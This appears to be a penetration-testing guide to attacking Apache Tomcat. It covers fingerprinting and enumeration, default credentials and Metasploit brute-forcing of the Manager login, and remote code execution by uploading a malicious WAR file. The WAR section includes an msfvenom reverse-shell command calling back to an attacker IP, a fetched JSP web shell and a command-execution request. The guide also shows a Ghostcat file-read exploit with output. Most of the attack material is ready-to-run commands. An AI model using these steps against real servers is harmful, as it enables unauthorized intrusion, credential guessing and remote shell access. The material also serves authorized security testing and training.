



**Apache Tomcat** is an open-source web server designed to run Java-based applications, particularly Java Servlets and JSP (Java Server Pages). It is commonly used in enterprise environments and often appears during internal pentests, where it can become a high-value target due to weak configurations or exposed management interfaces.

Although less frequently exposed externally, when accessible it can provide a direct foothold into the internal network, especially if administrative interfaces are reachable.

---

## Identification & Fingerprinting

Tomcat can be identified through HTTP responses, default resources, and error messages. Even when behind a reverse proxy, certain behaviors can still reveal its presence.

### HTTP Headers

Tomcat often leaks information in response headers:

```http
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
X-Powered-By: Servlet/3.0 JSP/2.2
```

Sometimes the exact version is exposed:

```http
Server: Apache-Coyote/1.1 (Apache Tomcat/7.0.68)
```

### Error-based detection

Requesting a non-existent resource may reveal version details:

```http
GET /invalid HTTP/1.1
Host: target:8080
```

Typical response:

```html
Apache Tomcat/9.0.30 - Error report
```

### Default pages and documentation

Tomcat installations often expose default endpoints:

```http
http://target:8080/
http://target:8080/docs/
```

```bash
curl -s http://target:8080/docs/ | grep Tomcat
```

Example:

```html
<title>Apache Tomcat 9 (9.0.30) - Documentation Index</title>
```

---

## Enumeration

Once Tomcat is identified, the next step is to enumerate exposed functionality and administrative interfaces.

### Directory discovery

Common endpoints can be discovered manually or with tools:

```bash
gobuster dir -u http://target:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Typical findings:

```text
/docs
/examples
/manager
/host-manager
```

### Manager interfaces

Key attack surfaces:

- `/manager/html` → GUI interface
    
- `/manager/text` → API access
    
- `/host-manager/html` → virtual host management
    

These usually require authentication but are often exposed with weak credentials.

### Credential exposure in configuration

If file access is achieved (e.g., via LFI), the following file is critical:

```text
conf/tomcat-users.xml
```

Example:

```xml
<user username="tomcat" password="tomcat" roles="manager-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```

This file defines:

- Users
    
- Passwords
    
- Roles (manager-gui, admin-gui, etc.)
    

---
## Brute Force Against Tomcat Manager

When default or weak credentials are not successful, a brute force attack against the Tomcat Manager interface is a common next step. This interface uses HTTP Basic Authentication, making it easy to automate login attempts.



### Using Metasploit module

Metasploit provides a dedicated module for brute forcing Tomcat Manager credentials:

```bash
use auxiliary/scanner/http/tomcat_mgr_login
```

Basic configuration:

```bash
set RHOSTS target_ip
set RPORT 8080
set TARGETURI /manager/html
set STOP_ON_SUCCESS true
set THREADS 1
set VHOST target.domain.local
run
```

---

## Exploiting Tomcat Manager via WAR Upload

The Tomcat Manager interface allows authenticated users to deploy applications directly on the server. If valid credentials are obtained, this feature can be abused to upload a malicious WAR file, resulting in remote code execution.

### Accessing the Manager

```http
http://target:8080/manager/html
```

This endpoint requires authentication. In many cases, weak or default credentials are used:

- `admin:admin`
    
- `tomcat:tomcat`
    
- `admin:password`
    
- `tomcat:s3cret`
    

If credentials are not available, a brute force attack is typically required before continuing.


### Preparing the malicious WAR file

To achieve code execution, a WAR file containing a JSP payload must be created. This can be done either by generating a reverse shell or packaging a web shell manually, depending on the objective.

#### Using Msfvenom

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f war -o shell.war
```

This generates a WAR file that, once deployed, will connect back to the attacker and provide an interactive shell.


#### JSP web shell WAR (manual approach)

Download a JSP web shell:

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```

Package it into a WAR archive:

```bash
zip -r backup.war cmd.jsp
```

This creates a deployable application containing a command execution interface.


### Uploading and deploying the WAR

The WAR file can be uploaded using the Manager API:



### Triggering execution

For reverse shell:

```bash
penelope -p 4444
```

Then trigger it:
```http
http://target:8080/shell/
```




For JSP web shell:

```bash
curl "http://target:8080/backup/cmd.jsp?cmd=id"
```


---

## CVE-2020-1938 (Ghostcat)

Ghostcat is an unauthenticated Local File Inclusion (LFI) vulnerability affecting Apache Tomcat through the AJP (Apache JServ Protocol) connector. It allows attackers to read sensitive files from the web application directory without authentication.

This vulnerability affects:

- Tomcat < 9.0.31
    
- Tomcat < 8.5.51
    
- Tomcat < 7.0.100


### How it works

Tomcat uses the AJP protocol (usually on port **8009**) to communicate with front-end web servers like Apache or Nginx.

Due to improper configuration, the AJP connector may:

- Accept requests from untrusted sources
    
- Allow file inclusion via crafted AJP requests
    

This leads to LFI within the `webapps` directory.

### Exploiting Ghostcat (LFI)

Public PoCs allow interaction with the AJP service to read files.

Example:

```bash
python2.7 tomcat-ajp.lfi.py target -p 8009 -f WEB-INF/web.xml
```

Output:

```xml
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" version="4.0">
  <display-name>Welcome to Tomcat</display-name>
</web-app>
```

